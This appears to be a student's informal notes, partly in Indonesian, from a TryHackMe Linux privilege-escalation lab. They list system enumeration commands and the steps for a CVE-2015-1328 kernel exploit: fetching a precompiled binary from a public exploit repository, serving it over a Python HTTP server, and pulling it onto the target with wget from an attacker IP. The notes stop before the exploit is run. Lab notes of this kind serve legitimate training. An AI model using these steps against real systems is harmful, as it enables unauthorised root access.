 ## SSH
>> ssh username@ip_add

[=]  Task 3  [=]

## Hostname
>. hostname

## Linux kernel version
>. uname -a
>. cat /proc/version

## What Linux is this
>. cat /etc/issue

## Python version
>. python --version

[=]  Task 5 - PrivEsc via Kernel Exploits  [=]

## Kernel vuln
-- Cari CVE (2015-1328)
-- Download exploit
-- copy hasil download
   >> mv 37292.c ../CTF/TryHackMe/linux-privilege-escalation

## Compile exploit
>> gcc 37292.c -o ofs
   -- Error pas compile :v

## Find another exploit
-- https://github.com/SecWiki/linux-kernel-exploits/blob/master/2015/CVE-2015-1328/ofs_32
-- copy exploit 
   >> mv ofs_32 ../CTF/TryHackMe/linux-privilege-escalation

## Start local server
>> sudo python3 -m http.server

## Transfer exploit from local to target machine
>. cd tmp
>. wget http://{vpn_ip}:8000/ofs_32
wget http://10.18.201.241:8000/exp

## Check file permission
>. ls -la
